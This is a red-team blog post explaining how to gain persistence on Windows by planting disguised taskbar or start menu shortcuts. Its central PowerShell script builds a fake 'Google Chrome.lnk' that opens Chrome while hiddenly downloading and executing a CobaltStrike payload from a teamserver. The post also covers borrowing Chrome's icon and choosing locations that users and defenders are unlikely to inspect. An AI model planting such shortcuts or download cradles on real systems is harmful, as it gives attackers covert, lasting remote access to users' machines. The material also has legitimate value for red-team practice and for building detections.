 ```yaml
---
layout: post
title: Sticky LNKz
date: 2017-08-15
excerpt: "A post about User-Driven persistence using common taskbar and startmenu shortcuts"
tags: [persistence, redteam, cradles, payloads]
comments: false
---
```

# Intro
As a user in a corporate environment, what is one of the first things you do? After you get some coffee and have a chat with your co-workers about the latest news or some semi-personal event from the night before.. you log in. A good blue team will be looking to make sure when you log in there isn't some type of malware set up with persistence to run before you even hear that catchy windows logon tune. With programs like <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns" title="autoruns">**autoruns**</a> and well crafted detection methods from just about every security vendor, it is very likely a redteamer will get caught trying to drop persistence in the known and obvious locations.

## Disclaimer
As I introduce this concept, I apologize if anyone has already explored this method and might think I am blatantly plagurizing their work, I swear it is not my style. 

## User-Drive Persistence
I've seen several different methods of persistence that redteamers (and blackhats) often use to repop a shell on a device that gets shutdown everyday and rebooted the next morning. Senspost's <a href="https://www.twitter.com/_staaldraad">@_staaldraad</a> has a handy tool I was introduced to at Blackhat called <a href="https://github.com/sensepost/ruler">**"Ruler"**</a>. The original concept was once you had credz you could set up an outlook rule to pop a shell whenever needed by sending a triggered email that would delete itself and run a payload via an external webdev share. Genius!
### Subj: "bSpence love his shells"

One of the major limitations to this type of persistence is that you have to rely on some user interaction to generate your trigger and get the shell (ie. the user has to start an application). However, if you pick an application like Outlook or other commonly used standard applications, this can be a nice way to hide your shell popping payloads in plain sight, hidden from the user, and even better, hidden from the blue team.

I recently had an engagement with @SpecterOps in which @bluscreenofjeff and @enigma0x3 introduced to me some tradecraft payload cradles in which they use .LNK and .HTA files as links in their phishing emails to get initial breach shells. I don't like to name drop, but I'd be kind of a jerk without mentioning someone like @SubTee who's been the cradle Jedi master for a year or two now. Anyways, after playing with the cradles and thinking about how my blue team might react something slapped me in the face as I looked at the taskbar.
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/taskbar.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/taskbar.png"></a>
	<figcaption>Ex: "My Current Taskbar Situation"</figcaption>
</figure>

## Introducing Sticky LNKz
The epiphany I had was that users often customize their user experience by creating Start Menu and Taskbar shortcuts to execute their favorited applications. The other thing users do is create desktop shortcuts, but I will talk about why the Start Menu and Taskbar are much more covert friendly. These shortcuts get saved on the filesystem as .LNK files since that is essentially what a shortcut is, a link to an executable.

## The Payload
Credit to @enigma0x3 for the original powershell LNK generation, below I've added a few things to retrofit this script for taskbar/startmenu usage. In the example below we will be using Google Chrome as a shortcut. Keep in mind this is post-exploitation work to establish User-Based Persistence.
{% highlight html %}
$LNKName = "C:\Users\<YOUR_USER>\Desktop\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
google here
Ex: "Google Chrome.lnk"
{: .mycenter} 
## Snippet Step-by-Step
The LNKName identifies the save location of the lnk you're generating. You want this to be named exactly like the a taskbar or start menu lnk might look. The BinaryPath establishes powershell.exe as the executable to run instead of the path to chrome.exe
{% highlight html %}
$LNKName = "C:\<DESIRED_LOCATION>\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
{% endhighlight %}
The first part of the command execution here is to start chrome.exe so the user gets an actual chrome popup and doesn't get suspicious that their shortcut didn't start as intended. This can be tricky and works depending on $PATH, but I've noticed putting the full path to the binary usually craps out the script. The second piece is your standard arguments to start a proxy aware shell using a CobaltStrike powershell web drive-by script that you've already hosted on your teamserver.
{% highlight html %}
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
{% endhighlight %}
The following are required to create the lnk and populate it with the information you've already defined.
{% highlight html %}
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
{% endhighlight %}
The IconLocation here is essential to our .lnk remaining covert and not tipping off the user. Notice after the full path the ", 0". This tells the lnk to take the first icon populated in the chrome.exe binary. You can explore this manually by creating shortcuts and changing the icons, but I've pretty much seen 0 as the common choice. 
{% highlight html %}
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
icon here
Ex: "IconLocation from Chrome.exe"
{: .mycenter} 
## Save Location
You really have two options when generating the link. Locally on your lab machine and then uploading it to the below locations on the filesystem, or be bold and upload it directly to the compromised host in the start menu or taskbar locations.
## Task Bar
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar
{% endhighlight %}
## Start Menu
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Windows\Start Menu
{% endhighlight %}
## Why No Desktop Love?
As I indicated before you *could* generate a lnk and put it on the user's desktop, but there is some OPSEC considerations that tip off the user. When hovering over the Desktop shortcut the "Location:<PATH_TO_EXECUTABLE>" is shown on hover. This will get you busted pretty quick if the user is paying attention. The taskbar and startmenu location for some reason do not have the same hovers, so the user will not really be tipped off unless he goes exploring the file locations above.

location here
Ex: "Location: powershell"
{: .mycenter}
## To-Do's
I'd really like to eventually have the time to put this in a Cobaltstrike Aggressor script. I've already started a preliminary script, but I've been a bit stuck on how to approach it. I figured I could use some common shortcut types like Google, IE, Outlook, etc.. but having aggressor tie it to a hosted payload has given me some problems. I know it can be done, but I just haven't had the time to dig into it.
The other nice feature I might do is create a powershell script with user-defined input that will generate the link of your choice, but again, this is on my list of things to do.

## Summary
There are many ways to establish persistence and while the most desired persistence is automated without user intervention sometimes you have to use covert methods like I outlined in this post. I realize it isn't the most sophisticated, but in a pinch it is handy tradecraft like this that might get you out of a bind if defenders start to crack down on known persistence locations.

If anyone has any comment or feedback regarding this post please look me up on twitter @bSpence7337. Thanks!
